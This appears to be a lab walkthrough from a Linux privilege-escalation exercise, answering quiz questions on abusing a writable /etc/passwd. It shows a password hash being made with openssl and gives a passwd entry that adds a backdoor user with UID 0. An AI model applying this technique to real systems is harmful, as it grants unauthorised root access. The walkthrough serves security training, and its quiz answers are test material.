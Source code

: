 **How to exploit a writable /etc/passwd**

It's simple really, if we have a writable `/etc/passwd` file, we can write a new line entry according to the above formula and create a new user! We add the password hash of our choice, and set the UID, GID and shell to root. Allowing us to log in as our own root user!

## #6.1 - First, let's exit out of root from our previous task by typing "exit". Then use "su" to swap to user7, with the password "password"

~~~
user3@polobox:~$ su - user7
Password: 
Welcome to Linux Lite 4.4 user7
 
Thursday 14 May 2020, 16:48:36
Memory Usage: 317/983MB (32.25%)
Disk Usage: 6/217GB (3%)
Support - https://www.linuxliteos.com/forums/ (Right click, Open Link)
 
user7@polobox:~$ whoami
user7
~~~

## #6.2 - Having read the information above, what direction privilege escalation is this attack?

Answer: `vertical`

## #6.3 - Before we add our new user, we first need to create a compliant password hash to add! We do this by using the command: `openssl passwd -1 -salt [salt] [password]`. What is the hash created by using this command with the salt, "new" and the password "123"?

~~~
user7@polobox:~$ openssl passwd -1 -salt "new" "123"
$1$new$p7ptkEKU1HnaHpRtzNizS1
~~~

## #6.4 - Great! Now we need to take this value, and create a new root user account. What would the /etc/passwd entry look like for a root user with the username "new" and the password hash we created before?

*Hint: username:passwordhash:0:0:root:/root:/bin/bash*

Answer: `new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash`

## #6.5 - Great! Now you've got everything you need. Just add that entry to the end of the /etc/passwd file!
